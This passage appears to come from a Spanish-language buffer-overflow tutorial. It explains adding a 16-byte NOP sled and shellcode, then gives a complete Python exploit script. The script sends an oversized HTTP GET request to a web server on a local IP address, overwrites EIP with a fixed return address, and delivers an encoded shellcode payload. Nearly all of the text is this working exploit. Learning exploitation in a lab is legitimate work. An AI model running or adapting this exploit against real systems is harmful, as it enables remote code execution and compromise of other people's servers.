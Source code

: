 Ahora se debe agregar este shellcode en el script, además se le deben agregar los NOPs para que el programa sea interpretado correctamente. La representación del NOP dependerá de la arquitectura de la máquina, en este caso, para arquitecturas x86 normalmente se usa “\x90” para representar el NOP y en este caso se agregarán 16 NOPs.

El script final se verá de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 80
offset= 1787

before_eip = b"A"*offset
eip = pack("<L", 0x7657abcb)
NOP = b"\x90"*16
shellcode = (b"\xba\xbf\xab\xfa\xe1\xda\xcd\xd9\x74\x24\xf4\x5e\x31\xc9"
b"\xb1\x52\x83\xee\xfc\x31\x56\x0e\x03\xe9\xa5\x18\x14\xe9"
b"\x52\x5e\xd7\x11\xa3\x3f\x51\xf4\x92\x7f\x05\x7d\x84\x4f"
b"\x4d\xd3\x29\x3b\x03\xc7\xba\x49\x8c\xe8\x0b\xe7\xea\xc7"
b"\x8c\x54\xce\x46\x0f\xa7\x03\xa8\x2e\x68\x56\xa9\x77\x95"
b"\x9b\xfb\x20\xd1\x0e\xeb\x45\xaf\x92\x80\x16\x21\x93\x75"
b"\xee\x40\xb2\x28\x64\x1b\x14\xcb\xa9\x17\x1d\xd3\xae\x12"
b"\xd7\x68\x04\xe8\xe6\xb8\x54\x11\x44\x85\x58\xe0\x94\xc2"
b"\x5f\x1b\xe3\x3a\x9c\xa6\xf4\xf9\xde\x7c\x70\x19\x78\xf6"
b"\x22\xc5\x78\xdb\xb5\x8e\x77\x90\xb2\xc8\x9b\x27\x16\x63"
b"\xa7\xac\x99\xa3\x21\xf6\xbd\x67\x69\xac\xdc\x3e\xd7\x03"
b"\xe0\x20\xb8\xfc\x44\x2b\x55\xe8\xf4\x76\x32\xdd\x34\x88"
b"\xc2\x49\x4e\xfb\xf0\xd6\xe4\x93\xb8\x9f\x22\x64\xbe\xb5"
b"\x93\xfa\x41\x36\xe4\xd3\x85\x62\xb4\x4b\x2f\x0b\x5f\x8b"
b"\xd0\xde\xf0\xdb\x7e\xb1\xb0\x8b\x3e\x61\x59\xc1\xb0\x5e"
b"\x79\xea\x1a\xf7\x10\x11\xcd\x38\x4c\x19\x69\xd1\x8f\x19"
b"\x63\x07\x19\xff\xe9\x57\x4f\xa8\x85\xce\xca\x22\x37\x0e"
b"\xc1\x4f\x77\x84\xe6\xb0\x36\x6d\x82\xa2\xaf\x9d\xd9\x98"
b"\x66\xa1\xf7\xb4\xe5\x30\x9c\x44\x63\x29\x0b\x13\x24\x9f"
b"\x42\xf1\xd8\x86\xfc\xe7\x20\x5e\xc6\xa3\xfe\xa3\xc9\x2a"
b"\x72\x9f\xed\x3c\x4a\x20\xaa\x68\x02\x77\x64\xc6\xe4\x21"
b"\xc6\xb0\xbe\x9e\x80\x54\x46\xed\x12\x22\x47\x38\xe5\xca"
b"\xf6\x95\xb0\xf5\x37\x72\x35\x8e\x25\xe2\xba\x45\xee\x02"
b"\x59\x4f\x1b\xab\xc4\x1a\xa6\xb6\xf6\xf1\xe5\xce\x74\xf3"
b"\x95\x34\x64\x76\x93\x71\x22\x6b\xe9\xea\xc7\x8b\x5e\x0a"
b"\xc2")

def exploit ():

    try:
        c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        c.connect((ip_add, port))

        c.send(b"GET " + before_eip + eip + NOP + shellcode + b" HTTP/1.1\r\n\r\n")
        c.recv(1024)
        c.close()
                
    except:
        print("[+] El programa ha concluido")
        sys.exit(1)

if __name__ == '__main__':
    exploit()
```